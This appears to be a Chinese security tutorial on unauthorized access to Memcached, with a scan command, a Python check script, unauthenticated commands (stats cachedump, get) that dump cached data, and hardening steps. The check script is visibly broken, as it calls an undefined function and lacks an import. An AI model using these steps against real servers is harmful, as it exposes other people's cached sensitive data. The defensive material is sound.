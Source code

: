 # Memcache未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/3015](https://www.zhihuifly.com/t/topic/3015)

# Memcache未授权访问

## 一、漏洞简介

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

## 二、影响范围

## 三、复现过程

#### 1.扫描探测

```
nmap -sV -p 11211 --script memcached-info 0.0.0.0 
```

![image](img/7aa812cfbceb4199c38b706f39e8fdb0.png)

```
##! /usr/bin/env python
## _*_  coding:utf-8 _*_
def Memcache_check(ip, port=11211, timeout=5):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("stats\r\n")
        result = s.recv(1024)
        if "STAT version" in result:
            print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
    except Exception, e:
        pass
if __name__ == '__main__':
    Elasticsearch_check("127.0.0.1") 
```

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

*   {COMMAND}0x20{ARGUMENT}(LF|CRLF)

command字段有如下几条命令

*   存储操作(set, add, replace, append, prepend, cas)
*   检索操作 (get, gets)
*   删除操作 (delete)
*   增减操作 (incr, decr)
*   touch
*   slabs reassign
*   slabs automove
*   lru_crawler
*   统计操作(stats items, slabs, cachedump)
*   其他操作 (version, flush_all, quit)

| Command | 描述 | 实例 |
| --- | --- | --- |
| get | 读某个值 | get mykey |
| set | 强制设置某个键值 | set mykey 0 60 5 |
| add | 添加新键值对 | add newkey 0 60 5 |
| replace | 覆盖已经存在的key | replace key 0 60 5 |
| flush_all | 让所有条目失效 | flush_all |
| stats | 打印当前状态 | stats |
| stats malloc | 打印内存状态 | stats malloc |

version | 打印Memcached版本 | version

```
stats  //查看memcache 服务状态
stats items  //查看所有items
stats cachedump 32 0  //获得缓存key
get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露 
```

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache 服务的11211端口。

![image](img/b211b7e748c0dc06385cd5b03f97a3f5.png)
附赠大佬写的文章 [Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为 127.0.0.1。其中 -l 参数指定为本机地址。例如：
memcached -d -m 1024 -u root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件
OPTIONS="-l 127.0.0.1"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached reload

##### 2.防火墙

```
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

// drop

## iptables -I INPUT -p tcp --dport 11211 -j DROP

## iptables -I INPUT -p udp --dport 11211 -j DROP

// 保存规则并重启 iptables

## service iptables save

## service iptables restart 
```

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid 
```

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

```
memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid 
```

##### 6.定期升级

参考:

*   http://lzone.de/cheat-sheet/memcached
*   https://www.secpulse.com/archives/49659.html
*   https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/
*   https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
*   http://niiconsulting.com/checkmate/2013/05/memcache-exploit/
*   https://xz.aliyun.com/t/2018
*   http://drops.xmd5.com/static/drops/web-8987.html
*   https://blog.csdn.net/microzone/article/details/79262549